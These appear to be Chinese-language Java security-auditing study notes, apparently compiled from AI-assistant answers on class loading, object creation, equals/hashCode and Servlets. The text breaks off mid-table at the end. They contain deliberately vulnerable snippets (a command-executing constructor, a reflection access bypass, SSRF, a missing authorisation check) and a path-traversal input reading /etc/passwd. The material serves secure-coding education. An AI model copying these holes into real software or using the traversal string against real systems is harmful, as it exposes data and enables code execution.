| **初始化** | 静态代码自动执行 | 反序列化是否触发 `<clinit>()`？静态块是否有危险操作？ |

> 💡 **经典漏洞示例**：  
> Fastjson、XStream、Commons Collections 等反序列化漏洞，本质都是**通过控制类名或字节码，诱导 JVM 加载并初始化恶意类**，从而执行 `<clinit>()` 或 `readObject()` 中的攻击载荷。

---

#### 建议延伸学习
- 《深入理解Java虚拟机》第7章 + 第12章（Class 文件结构）
- Java 安全 manager 与 ClassLoader 的协作机制
- 如何通过 `SecurityManager` 限制类加载（虽已 deprecated，但原理重要）

如果你接下来想了解 **双亲委派模型（Parent Delegation Model）** 或 **如何自定义安全的 ClassLoader**，欢迎继续提问！

### 双亲委派模型

非常好！作为网络安全工程师深入 Java 代码审计，**双亲委派模型（Parent Delegation Model）** 是理解 Java 类隔离、沙箱安全、反序列化绕过等高阶漏洞的核心机制。你要求结合《深入理解Java虚拟机》进行解释，下面我将严格依据该书（第3版 第7章）的内容，并融入安全视角，系统阐述：

---

#### 一、什么是双亲委派模型？（What）

> 📚 **《深入理解Java虚拟机（第3版）》· 第7.4节**：  
> “站在 Java 虚拟机的角度，只存在两种不同的类加载器：  
> - 启动类加载器（Bootstrap ClassLoader）  
> - 其他类加载器（由 Java 语言实现，继承自 `java.lang.ClassLoader`）  
>
> 但从开发者的角度，通常会使用以下三层类加载器：  
> 1. **启动类加载器（Bootstrap ClassLoader）**：加载 `<JAVA_HOME>/lib` 中的核心类库（如 `rt.jar`），由 C++ 实现，是虚拟机自身的一部分。  
> 2. **扩展类加载器（Extension ClassLoader）**：加载 `<JAVA_HOME>/lib/ext` 目录中的类库。  
> 3. **应用程序类加载器（Application ClassLoader）**：也称系统类加载器，加载用户类路径（ClassPath）上的类库。  
>
> **双亲委派模型的工作过程是**：如果一个类加载器收到了类加载的请求，它首先不会自己去尝试加载这个类，而是把这个请求委派给父类加载器去完成，每一个层次的类加载器都是如此，因此所有的加载请求最终都应该传送到最顶层的启动类加载器中，只有当父加载器反馈自己无法完成这个加载请求（即在它的搜索范围中没有找到所需的类）时，子加载器才会尝试自己去加载。”

##### ✅ 双亲委派模型的核心逻辑（伪代码）：
```java
protected Class<?> loadClass(String name, boolean resolve) throws ClassNotFoundException {
    synchronized (getClassLoadingLock(name)) {
        // 1. 检查是否已加载
        Class<?> c = findLoadedClass(name);
        if (c == null) {
            try {
                if (parent != null) {
                    // 2. 委派给父加载器
                    c = parent.loadClass(name, false);
                } else {
                    // 3. 顶层由 Bootstrap 加载
                    c = findBootstrapClassOrNull(name);
                }
            } catch (ClassNotFoundException e) {
                // 父加载器无法加载
            }
            if (c == null) {
                // 4. 自己尝试加载
                c = findClass(name);
            }
        }
        if (resolve) {
            resolveClass(c);
        }
        return c;
    }
}
```

---

#### 二、为什么需要双亲委派模型？（安全意义）

> 📚 书中指出：“双亲委派模型的**好处**是 Java 类随着它的类加载器一起具备了一种带有优先级的层次关系。”

##### 🔒 安全价值：
1. **防止核心类被篡改**  
   - 例如：用户自定义 `java.lang.String`，由于双亲委派，JVM 总是先由 Bootstrap 加载器加载 `$JAVA_HOME/lib/rt.jar` 中的 `String`，用户同名类永远不会被加载。
   - 若无此机制，攻击者可植入恶意 `java.lang.Runtime` 实现，接管整个 JVM。

2. **保证类的唯一性和一致性**  
   - 同一个类在不同 ClassLoader 中被视为不同类型。双亲委派确保核心类全局唯一，避免类型转换异常（`ClassCastException`）和逻辑混乱。

3. **构建安全沙箱的基础**  
   - Applet、Web 容器（如 Tomcat）通过自定义 ClassLoader 隔离应用，而核心 API 仍由父加载器提供，形成“可信基”。

---

#### 三、什么是“破坏双亲委派模型”？（Why & How）

> 📚 **《深入理解Java虚拟机》第7.4.3节**：  
> “双亲委派模型并不是一个强制性的模型，而是 Java 设计者推荐的类加载器实现方式。**如果有足够的理由，可以不遵循这个模型**。”

###### ✅ 合法破坏场景（设计所需）：
1. **SPI（Service Provider Interface）机制**  
   
   - 如 JDBC：`java.sql.Driver` 由 Bootstrap 加载器加载，但具体实现（如 `com.mysql.Driver`）在用户 ClassPath 中。
   - 此时，高层 API（父加载器）需加载底层实现（子加载器），**逆向委派**。
   - 解决方案：**线程上下文类加载器（Thread Context ClassLoader）**
     ```java
     ClassLoader loader = Thread.currentThread().getContextClassLoader();
     driver = (Driver) loader.loadClass("com.mysql.Driver").newInstance();
     ```
   
2. **热部署 / 模块化（OSGi、JPMS）**  
   
   - OSGi 允许同一个类的不同版本共存，必须打破双亲委派，实现**网状加载**。
   
3. **Web 容器（如 Tomcat）**  
   - 为实现应用隔离，Tomcat 的 `WebAppClassLoader` **优先加载 WEB-INF/classes**，再委派给父加载器（仅对 JRE 核心类委派），称为 **“父委托反转”**。

###### ⚠️ 恶意破坏场景（安全风险）：
1. **反序列化 gadget 绕过**  
   - 攻击者通过自定义 ClassLoader 加载恶意类，绕过安全管理器或白名单检查。
   - 例如：Fastjson 在某些配置下可通过 `@type` 指定任意类，若 ClassLoader 未限制，可加载危险类。

2. **动态代理 + 自定义 ClassLoader 执行字节码**  
   - 如内存马（Memory Shell）技术：通过反射创建自定义 ClassLoader，加载加密的 WebShell 字节码，完全绕过文件落地检测。

3. **覆盖系统类（极罕见，需高权限）**  
   - 若 `-Xbootclasspath` 被滥用，可替换核心类（现代 JVM 已严格限制）。

---

#### 四、如何识别“破坏双亲委派”的代码？（审计要点）

| 场景                        | 代码特征                                                 | 安全风险                         |
| --------------------------- | -------------------------------------------------------- | -------------------------------- |
| **自定义 ClassLoader**      | 继承 `ClassLoader` 并重写 `loadClass()` 或 `findClass()` | 可能加载不可信字节码             |
| **使用 ContextClassLoader** | `Thread.currentThread().getContextClassLoader()`         | 可能绕过类白名单                 |
| **反射加载类**              | `Class.forName(name, true, customLoader)`                | 若 `customLoader` 可控，风险极高 |
| **Tomcat/WebLogic 等容器**  | `WebAppClassLoader`、`Filter` 动态注册                   | 内存马常见入口                   |

> 🔍 **审计建议**：  
> - 搜索 `new ClassLoader() { ... }` 或 `extends ClassLoader`  
> - 检查 `ObjectInputStream.resolveClass()` 是否校验类名白名单  
> - 关注 `Thread.setContextClassLoader()` 的调用点

---

#### 五、总结

| 项目             | 说明                                                       |
| ---------------- | ---------------------------------------------------------- |
| **双亲委派模型** | 父加载器优先加载，保障核心类安全与唯一性                   |
| **破坏双亲委派** | 合法用于 SPI、热部署；恶意用于绕过安全控制                 |
| **安全本质**     | **类加载器 = 权限边界**，破坏委派 = 打破隔离               |
| **审计重点**     | 自定义 ClassLoader、ContextClassLoader、反序列化中的类加载 |

> 💡 **经典案例**：  
> Log4j2 JNDI 注入（CVE-2021-44228）虽非直接破坏双亲委派，但其利用 `JndiLookup` 通过 LDAP 加载远程类，本质上依赖了 **远程代码通过 ClassLoader 被加载执行** 的机制——这正是类加载安全的边界所在。

---

如果你接下来想了解：
- 如何编写安全的自定义 ClassLoader？
- 反序列化中如何防御恶意类加载？
- Java 9+ 模块系统（JPMS）对类加载的影响？

### new创建对象

如何用new创建对象

非常好！作为网络安全工程师学习 Java 代码审计，理解 **`new` 创建对象** 的底层机制和安全影响，是识别 **对象构造漏洞、反序列化风险、资源滥用、权限绕过** 等问题的基础。下面我将从 **语法、JVM 执行过程、安全风险、审计要点** 四个维度，结合《深入理解Java虚拟机》的相关原理，为你系统讲解。

---

#### 一、基本语法：如何用 `new` 创建对象？

```java
ClassName objectRef = new ClassName(arguments);
```

示例：

```java
User user = new User("admin", "123456");
List<String> list = new ArrayList<>();
```

> ✅ 必要条件：
> - 类必须**可访问**（`public` 或同包）
> - 必须调用一个**存在的构造方法**（`Constructor`）
> - 类必须**已被加载、链接、初始化**（触发类加载机制）

---

#### 二、`new` 在 JVM 中的执行过程（依据《深入理解Java虚拟机》）

> 📚 **《深入理解Java虚拟机（第3版）》第7章 + 第12章** 指出：  
> 当执行 `new` 指令时，JVM 会完成以下步骤：

1. **检查类是否已加载**

- 若未加载，则触发**类加载机制**（加载 → 验证 → 准备 → 解析 → 初始化）。
- 此时会执行 `<clinit>()`（静态初始化块）。

2. **为对象分配内存**

- 在**堆（Heap）** 中分配足够空间（大小在类加载时已确定）。
- 内存分配方式：
  - **指针碰撞（Bump the Pointer）**：堆规整时使用
  - **空闲列表（Free List）**：堆不规整时使用
- 多线程下通过 **TLAB（Thread Local Allocation Buffer）** 避免竞争。

3. **初始化对象内存为零值**

- 所有字段设为默认值（如 `int=0`, `boolean=false`, 引用类型=`null`）。
- **注意**：这一步在构造方法执行**之前**完成。

4. **设置对象头（Object Header）**

- 包含：**Mark Word**（哈希码、GC 分代年龄、锁状态）、**Klass Pointer**（指向类元数据）。

5. **执行 `<init>` 方法（即构造方法）**

- 调用你定义的构造函数，对字段进行**显式初始化**。
- 构造方法中可包含任意逻辑（如权限校验、资源打开、网络请求等）。

> 🔒 **安全关键点**：  
> **构造方法是攻击面！** 它可能包含危险操作，且在对象创建时自动执行。

---

#### 三、`new` 相关的安全风险（代码审计重点）

🔒 风险 1：**构造方法中执行危险操作**

```java
public class DangerousObject {
    public DangerousObject(String cmd) {
        Runtime.getRuntime().exec(cmd); // ❌ RCE！
    }
}
```
- 若攻击者能控制 `new DangerousObject(userInput)` 的参数，可直接导致 **远程命令执行（RCE）**。
- **常见于反序列化 gadget**：如 `CommonsCollections` 中的 `InvokerTransformer`。

✅ **审计建议**：  
检查所有 `public` 构造方法是否接收外部输入并执行敏感操作。

---

🔒 风险 2：**对象创建绕过权限校验**

```java
public class AdminService {
    private AdminService() {} // 私有构造器，意图单例

    public static AdminService getInstance() {
        if (currentUser.isAdmin()) {
            return INSTANCE;
        }
        throw new AccessDeniedException();
    }
}
```
- 表面看安全，但若存在 **反射调用** 或 **反序列化**，仍可绕过：
  ```java
  Constructor<AdminService> c = AdminService.class.getDeclaredConstructor();
  c.setAccessible(true);
  AdminService bypass = c.newInstance(); // ❌ 绕过权限校验
  ```

✅ **防御措施**：
- 在 `<init>` 中加入运行时校验（但反射仍可绕过）
- 实现 `readResolve()` 防止反序列化绕过（见下文）

---

🔒 风险 3：**资源未释放（DoS）**

```java
public class FileHandler {
    public FileHandler(String path) {
        this.file = new RandomAccessFile(path, "rw"); // 打开文件
        // 若构造失败（如异常），file 可能未关闭 → 文件句柄泄漏
    }
}
```
- 若攻击者频繁创建此类对象，可耗尽文件描述符，造成 **拒绝服务（DoS）**。

✅ **修复**：使用 try-with-resources 或确保在 finally 中关闭。

---

🔒 风险 4：**`new` 触发类初始化 → 执行静态代码**

```java
public class EvilClass {
    static {
        // 静态块在类初始化时执行
        stealCredentials();
    }
}
```
- 只要执行 `new EvilClass()`，就会触发 `<clinit>()`，执行静态块。
- **这是反序列化利用链的重要入口之一**。

---

#### 四、`new` 与反序列化的区别（关键！）

| 方式                                | 是否调用构造方法     | 是否触发 `<clinit>`  | 安全风险                   |
| ----------------------------------- | -------------------- | -------------------- | -------------------------- |
| `new`                               | ✅ 是                 | ✅ 是（首次使用时）   | 构造方法逻辑风险           |
| **反序列化**（`ObjectInputStream`） | ❌ 否（除非特殊处理） | ✅ 是（若类未初始化） | 绕过构造方法，直接设置字段 |

> ⚠️ **重要**：  
> 反序列化**不调用构造方法**，因此依赖构造方法做安全校验是无效的！  
> 正确做法：在 `readObject()` 中校验，或使用 `readResolve()` 返回合法实例。

---

#### 五、安全编码与审计建议

✅ 开发者应：

- 避免在构造方法中执行 **I/O、网络、命令执行、权限敏感操作**。
- 对 `public` 构造方法的参数进行**严格校验**。
- 敏感类使用 **私有构造器 + 静态工厂方法**，并在工厂方法中校验权限。
- 考虑实现 `readObject()` / `readResolve()` 防御反序列化。

🔍 审计者应：

1. 搜索 `new` 关键字，关注：
   - 参数是否来自用户输入？
   - 构造方法内部是否有 `Runtime.exec()`、`new Socket()`、文件操作等？
2. 检查是否可通过反射或反序列化绕过构造限制。
3. 注意 `new` 是否在循环中被滥用（资源耗尽）。

---

#### 六、总结

| 问题                 | 答案                                                  |
| -------------------- | ----------------------------------------------------- |
| **`new` 做了什么？** | 分配内存 + 初始化零值 + 设置对象头 + 调用构造方法     |
| **安全风险在哪？**   | 构造方法逻辑、静态初始化、资源管理、反射/反序列化绕过 |
| **审计重点？**       | 构造方法内容、参数来源、是否可被非预期调用            |

---

下一步你可以问：
- 如何通过反射创建对象？与 `new` 有何安全差异？
- 什么是 `Unsafe.allocateInstance()`？它如何绕过构造方法？
- 单例模式在反序列化下的安全问题？

继续深入，你的 Java 代码审计能力将覆盖从语法到 JVM 底层的完整链条！

### equals()

equals()怎么比较是否是相同的对象

这是一个非常关键的问题！作为网络安全工程师学习 Java 代码审计，**正确理解 `equals()` 的行为**是识别 **身份混淆、权限绕过、缓存污染、反序列化伪造** 等漏洞的基础。下面我将从 **语义、默认实现、重写规范、安全风险** 四个维度，结合《Java 语言规范》和安全实践，为你清晰解析。

---

#### 一、核心结论（先说重点）

> **`equals()` 并不直接比较“是否是同一个对象”** ——  
> - **比较“同一个对象”** 应使用 **`==`**（引用相等）  
> - **`equals()` 比较的是“逻辑相等”**（内容/语义是否相同）

但很多开发者混淆这两者，导致严重安全问题。

---

#### 二、`equals()` 的默认行为（来自 `Object` 类）

```java
// java.lang.Object 中的默认实现
public boolean equals(Object obj) {
    return (this == obj);
}
```

✅ **这意味着**：
- 如果一个类**没有重写 `equals()`**，那么 `a.equals(b)` 等价于 `a == b`，即**判断是否是同一个对象（引用相等）**。
- 一旦**重写了 `equals()`**，通常就变成**判断内容是否相等**（如 `String`、`Integer`）。

示例：

```java
String s1 = new String("admin");
String s2 = new String("admin");

System.out.println(s1 == s2);        // false（不同对象）
System.out.println(s1.equals(s2));   // true（内容相同）
```

---

#### 三、何时用 `==`？何时用 `equals()`？

| 场景                                                 | 推荐方式               | 原因             |
| ---------------------------------------------------- | ---------------------- | ---------------- |
| 判断是否是**同一个对象实例**（如单例、缓存键）       | `==`                   | 引用相等，性能高 |
| 判断两个对象**内容是否相同**（如用户名、ID、权限名） | `equals()`             | 语义相等         |
| **与字符串字面量比较**                               | `"admin".equals(role)` | 避免 NPE         |

> ⚠️ **安全黄金法则**：  
> **永远不要用 `==` 比较字符串内容！**

```java
// 危险示例
if (userRole == "admin") { ... } // ❌ 可能返回 false，即使内容是 "admin"

// 安全写法
if ("admin".equals(userRole)) { ... } // ✅ 防 NPE + 内容比较
```

---

#### 四、`equals()` 重写的规范（来自《Effective Java》）

若重写 `equals()`，必须满足以下性质（否则会导致不可预测行为）：

1. **自反性**：`x.equals(x)` → `true`
2. **对称性**：`x.equals(y)` ⇔ `y.equals(x)`
3. **传递性**：`x.equals(y) && y.equals(z)` ⇒ `x.equals(z)`
4. **一致性**：多次调用结果不变（前提是对象未修改）
5. **非空性**：`x.equals(null)` → `false`

> 🔒 **安全风险**：若 `equals()` 实现违反上述规则（尤其对称性/传递性），可能导致：
> - 权限校验逻辑混乱
> - HashMap/HashSet 中对象无法正确查找（缓存绕过）
> - 反序列化时身份伪造

---

#### 五、代码审计中的典型安全漏洞

🔒 漏洞 1：**用 `==` 比较用户角色（权限绕过）**

```java
public boolean isAdmin(User user) {
    return user.getRole() == "admin"; // ❌ 字符串常量池外的对象会返回 false
}
```
- 攻击者传入 `"admin"`（通过 JSON、HTTP 参数），JVM 创建新 `String` 对象，`==` 返回 `false`，但实际内容是 admin。
- **结果**：权限校验被绕过！

✅ **修复**：
```java
return "admin".equals(user.getRole());
```

🔒 漏洞 2：**自定义类 `equals()` 逻辑错误（身份伪造）**

```java
public class User {
    private String id;
    private String username;

    @Override
    public boolean equals(Object o) {
        if (o instanceof User) {
            return ((User) o).username.equals(this.username); // 仅比用户名！
        }
        return false;
    }
}
```
- 两个不同用户（不同 `id`）只要用户名相同，就被视为“相等”。
- 若系统用 `Set<User>` 去重，或用 `User` 作缓存键，可能导致**权限提升或数据覆盖**。

✅ **修复**：`equals()` 应基于**唯一标识**（如 `id`），而非可变字段。

🔒 漏洞 3：**`equals()` 未判空（NPE → DoS）**

```java
public boolean equals(Object o) {
    return this.name.equals(o.name); // ❌ 若 o.name 为 null，抛出 NPE
}
```
- 攻击者传入恶意对象，触发 NPE，造成服务异常（DoS）。

✅ **修复**：使用 `Objects.equals(a, b)`（Java 7+）：
```java
@Override
public boolean equals(Object o) {
    if (this == o) return true;
    if (o == null || getClass() != o.getClass()) return false;
    User user = (User) o;
    return Objects.equals(id, user.id);
}
```

---

#### 六、特殊场景：枚举（Enum）的安全优势

```java
enum Role { ADMIN, USER }

if (userRole == Role.ADMIN) { ... } // ✅ 安全！因为 enum 是单例
```
- 枚举的每个实例在 JVM 中**只有一个对象**，所以 `==` 安全且高效。
- **推荐在权限、状态等固定值场景使用 enum**，避免字符串比较风险。

---

#### 七、总结：安全使用指南

| 问题             | 正确做法                                             |
| ---------------- | ---------------------------------------------------- |
| 比较字符串内容   | `"expected".equals(input)`                           |
| 比较是否同一对象 | `a == b`（仅用于单例、enum、缓存键）                 |
| 重写 `equals()`  | 基于不可变唯一字段（如 ID），使用 `Objects.equals()` |
| 权限/角色判断    | 优先使用 `enum`，避免字符串                          |

> 💡 **审计口诀**：  
> **见 `==` 比字符串，必有越权风险；  
> 见 `equals()` 无判空，可能 DoS 可期。**

---

下一步你可以问：
- `hashCode()` 和 `equals()` 的关系？为什么重写 `equals()` 必须重写 `hashCode()`？
- 如何通过 `equals()` 绕过 Spring Security 的权限校验？
- 反序列化中如何伪造 `equals()` 返回 true？

继续深入，你的 Java 安全洞察力会越来越精准！

### hashCode()

hashCode()是什么


非常好！作为网络安全工程师学习 Java 代码审计，**理解 `hashCode()` 的作用和安全影响**，是识别 **哈希冲突 DoS、缓存绕过、身份伪造、反序列化逻辑漏洞** 等问题的关键。下面我将从 **定义、与 `equals()` 的关系、安全风险、审计要点** 四个维度，结合《Java 语言规范》和安全实践，为你系统解析。

---

#### 一、`hashCode()` 是什么？

> 📚 **《Java 语言规范（JLS）第8版 · 第3.10节》**：  
> “`hashCode()` 方法返回一个 `int` 值，称为对象的**哈希码（hash code）**。它用于支持基于哈希的集合类（如 `HashMap`、`HashSet`、`Hashtable`）高效地存储和检索对象。”

核心目的：

- **快速定位对象在哈希表中的位置**（桶索引）。
- 配合 `equals()` 实现“**先哈希分组，再精确比较**”的高效查找。

默认实现（来自 `Object` 类）：

```java
public native int hashCode(); // 通常返回对象的内存地址（或其变换）
```
- 每个对象的默认哈希码**在生命周期内不变**。
- 不同对象的哈希码**可能相同**（哈希冲突），但 `==` 为 `false`。

---

#### 二、`hashCode()` 与 `equals()` 的契约（必须遵守！）

> 📚 **《Effective Java（第3版）· 第3条》** 强调：  
> **如果两个对象 `equals()` 返回 `true`，那么它们的 `hashCode()` 必须相等。**  
> 反之不成立：`hashCode()` 相等 ≠ `equals()` 为 `true`（哈希冲突）。

违反契约的后果：

```java
public class User {
    private String name;
    
    @Override
    public boolean equals(Object o) {
        return o instanceof User && ((User) o).name.equals(this.name);
    }
    
    // ❌ 未重写 hashCode() → 使用 Object 默认实现（基于地址）
}
```

```java
Set<User> users = new HashSet<>();
User u1 = new User("admin");
User u2 = new User("admin");

users.add(u1);
System.out.println(users.contains(u2)); // false！尽管 equals() 为 true
```
- **原因**：`u1` 和 `u2` 哈希码不同，被放入 `HashSet` 的不同桶，`contains()` 不会调用 `equals()`。

> 🔒 **安全影响**：  
> - 权限用户被重复添加（绕过去重）  
> - 缓存失效（本应命中却重新计算）  
> - 会话固定（Session ID 冲突）

---

#### 三、`hashCode()` 在安全场景中的关键作用

1. **作为缓存/会话的键（Key）**

```java
Map<User, Permission> cache = new HashMap<>();
cache.put(currentUser, perm);
// 后续通过 currentUser 获取权限
```
- 若 `User` 的 `hashCode()` 基于可变字段（如 `username`），而 `username` 被修改，则：
  - 对象无法从 `HashMap` 中找到（哈希码变了）
  - 可能导致权限丢失或提权（若新哈希码碰撞到高权限用户）

✅ **安全实践**：  
**`hashCode()` 应基于不可变字段（如 ID、UUID）**。

2. **防止哈希冲突 DoS（HashDoS）**

- 攻击者构造大量 `hashCode()` 相同的对象，使 `HashMap` 退化为链表，O(1) → O(n)。
- 在 Web 应用中，若解析 JSON 到 `HashMap`（如 Fastjson、Jackson），可能造成 **CPU 耗尽 → DoS**。

> 💡 **历史案例**：  
> 2011 年，PHP、Java、Python 等多个平台因哈希冲突 DoS 被大规模攻击（CVE-2011-4858）。

✅ **防御措施**：
- 使用 **Java 8+**：`HashMap` 在冲突链 > 8 时转为红黑树，缓解 DoS。
- 对用户输入的 Map key 进行长度/数量限制。
- 使用 **随机化哈希种子**（Java 默认已启用，可通过 `-Djdk.map.althashing.threshold` 调整）。

---

#### 四、如何正确重写 `hashCode()`？（安全编码）

✅ 推荐方式（Java 7+）：

```java
@Override
public int hashCode() {
    return Objects.hash(id, username); // 自动处理 null
}
```

✅ 手动实现（高性能场景）：

```java
@Override
public int hashCode() {
    int result = 17;
    result = 31 * result + (id == null ? 0 : id.hashCode());
    result = 31 * result + (username == null ? 0 : username.hashCode());
    return result;
}
```

⚠️ 禁止行为：

- 在 `hashCode()` 中使用**可变字段**（如 `status`, `balance`）
- 返回**固定值**（如 `return 1;`）→ 所有对象进同一桶，性能灾难
- 抛出异常 → 导致集合操作崩溃（DoS）

---

#### 五、代码审计中的检查点

| 场景                          | 审计要点                                          |
| ----------------------------- | ------------------------------------------------- |
| **自定义类作 Map/Set 的 key** | 是否同时重写了 `equals()` 和 `hashCode()`？       |
| **`hashCode()` 实现**         | 是否基于不可变字段？是否可能抛异常？              |
| **Web 框架解析 JSON/XML**     | 是否限制 Map 大小？是否使用最新版（防 HashDoS）？ |
| **缓存/Session 管理**         | Key 的 `hashCode()` 是否稳定？是否可能被篡改？    |

🔍 示例漏洞代码：

```java
public class Session {
    public String token; // 可变！
    
    @Override
    public int hashCode() {
        return token.hashCode(); // 危险！token 变更后无法从缓存找到
    }
}
```
- 攻击者修改自己的 `token` 字段（通过反射或反序列化），可能导致：
  - 会话无法注销
  - 会话与他人冲突（若哈希碰撞）

---

#### 六、总结：安全原则

| 原则                                    | 说明                           |
| --------------------------------------- | ------------------------------ |
| **`equals()` 与 `hashCode()` 必须一致** | 逻辑相等 → 哈希码相等          |
| **`hashCode()` 应基于不可变字段**       | 避免对象“消失”在集合中         |
| **警惕哈希冲突 DoS**                    | 限制用户控制的 Map 规模        |
| **不要依赖哈希码做安全判断**            | 哈希码可碰撞，不能用于身份认证 |

> 💡 **审计口诀**：  
> **见自定义类作 key，必查 hashcode 与 equals；  
> 见可变字段算 hash，缓存会话必出岔。**

---

下一步你可以问：
- 如何利用 `hashCode()` 冲突进行 DoS 攻击？
- `HashMap` 在反序列化中的安全风险？
- Java 8 的 `HashMap` 红黑树转换机制如何防御 HashDoS？

继续深入，你的 Java 安全攻防视野将更加全面！

#### 接口和抽象类

- 区别是什么

- 应用场景是什么

#### 面向对象核心思想

- 封装
- 继承（重写和重载是什么意思）
- 多态
- 泛型、枚举enum是什么意思

#### 内部类

- 是什么
  - 匿名对象
  - 内部类
  - 匿名内部类
- static代码块有什么用

#### 集合类

- 集合类的用法和使用



## Java Web



### JavaEE

Java企业开发

### Servlet

#### 基本概念

非常好！作为网络安全工程师学习 Java 代码审计，**掌握 Servlet 的基本概念**是理解 Java Web 应用架构、识别 **权限绕过、输入验证缺失、会话管理缺陷、SSRF、文件上传漏洞** 等问题的基石。

下面我将从 **定义、生命周期、核心接口、工作原理、安全意义** 五个维度，结合 Java EE 规范和安全实践，为你系统讲解。

---

##### 一、Servlet 是什么？

> 📚 **Java EE 规范（JSR 340 / Servlet 3.1+）定义**：  
> **Servlet 是运行在 Web 容器（如 Tomcat、Jetty）中的 Java 类，用于处理 HTTP 请求并生成响应。**

**核心作用：**

- 接收客户端（浏览器、App）的 HTTP 请求（GET/POST/PUT/DELETE...）
- 执行业务逻辑（如认证、数据库操作）
- 生成动态响应（HTML、JSON、文件等）

> ✅ **本质**：  
> **Servlet = Java Web 应用的“控制器”（Controller）**

---

##### 二、Servlet 的生命周期（由容器管理）

Servlet 的生命周期完全由 **Web 容器（如 Tomcat）** 控制，包含三个阶段：

| 阶段          | 方法                                                        | 调用时机                                   | 安全意义                                                   |
| ------------- | ----------------------------------------------------------- | ------------------------------------------ | ---------------------------------------------------------- |
| **1. 初始化** | `init(ServletConfig config)`                                | **首次请求时**（或配置 `load-on-startup`） | 可用于加载配置、初始化资源；若在此执行危险操作，可能被触发 |
| **2. 服务**   | `service(HttpServletRequest req, HttpServletResponse resp)` | **每次 HTTP 请求**                         | 容器根据请求方法（GET/POST）自动调用 `doGet()`/`doPost()`  |
| **3. 销毁**   | `destroy()`                                                 | 容器关闭或应用卸载时                       | 释放资源（如数据库连接）                                   |

> ⚠️ **关键点**：
> - `init()` 和 `destroy()` **只执行一次**
> - `service()`（及 `doGet`/`doPost`）**每次请求都执行** → **主要攻击面**

---

##### 三、核心接口与类

###### 1. **`javax.servlet.Servlet`（根接口）**
```java
public interface Servlet {
    void init(ServletConfig config) throws ServletException;
    void service(ServletRequest req, ServletResponse res) throws ServletException, IOException;
    void destroy();
    // ...
}
```

###### 2. **`javax.servlet.http.HttpServlet`（最常用）**
- 抽象类，继承 `GenericServlet`
- 提供 `doGet()`, `doPost()`, `doPut()`, `doDelete()` 等方法
- 开发者只需重写需要的方法

示例：简单 Servlet

```java
@WebServlet("/user")
public class UserServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) 
            throws IOException {
        String id = req.getParameter("id");
        // ❌ 危险：未校验权限，直接返回用户信息
        resp.getWriter().println("User: " + getUserById(id));
    }
}
```

---

##### 四、Servlet 如何工作？（请求处理流程）

1. 用户访问 `http://example.com/app/user?id=123`
2. Web 容器（Tomcat）解析 URL，匹配到 `UserServlet`
3. 若首次访问，调用 `init()`
4. 创建 `HttpServletRequest` 和 `HttpServletResponse` 对象
5. 调用 `service()` → 根据 GET 方法调用 `doGet()`
6. `doGet()` 执行业务逻辑，写入响应
7. 容器将响应返回给客户端

> 🔒 **安全边界**：  
> **所有输入来自 `HttpServletRequest`，所有输出通过 `HttpServletResponse`**  
> → 这两个对象是安全审计的核心入口！

---

##### 五、Servlet 的安全意义（代码审计重点）

###### 🔒 1. **输入来源：`HttpServletRequest`**
- `getParameter()` → GET/POST 参数
- `getHeader()` → HTTP 头（如 `X-Forwarded-For`）
- `getCookies()` → Cookie
- `getRequestURI()` → 请求路径

✅ **审计要点**：
- 是否对所有输入进行**校验、过滤、转义**？
- 是否存在**路径遍历**（`?file=../../../etc/passwd`）？
- 是否信任 `X-Forwarded-For` 做 IP 判断？（可伪造）

###### 🔒 2. **权限控制缺失**
```java
protected void doPost(HttpServletRequest req, HttpServletResponse resp) {
    String action = req.getParameter("action");
    if ("delete".equals(action)) {
        deleteFile(req.getParameter("filename")); // ❌ 无权限校验！
    }
}
```
→ **水平越权**：普通用户可删除他人文件

###### 🔒 3. **敏感信息泄露**
```java
resp.getWriter().println("DB Error: " + e.getMessage()); // ❌ 泄露 SQL 结构
```

###### 🔒 4. **SSRF（Server-Side Request Forgery）**
```java
String url = req.getParameter("avatar");
InputStream is = new URL(url).openStream(); // ❌ 可请求内网
```

###### 🔒 5. **会话管理不当**
- 未使用 `HttpSession` 或手动管理 token
- 会话固定（Session Fixation）
- 未设置 `Secure`、`HttpOnly` Cookie

---

##### 六、现代 Servlet 开发方式

###### 1. **注解驱动（Servlet 3.0+）**
```java
@WebServlet("/api/login")
public class LoginServlet extends HttpServlet { ... }
```
- 无需 `web.xml` 配置
- 但需注意：**注解路径是否暴露敏感接口？**

###### 2. **与 Spring MVC 的关系**
- Spring `@Controller` 本质仍是 Servlet（`DispatcherServlet` 是前端控制器）
- 审计时需同时关注 **原生 Servlet** 和 **框架 Controller**

---

##### 七、总结：安全原则

| 原则           | 说明                               |
| -------------- | ---------------------------------- |
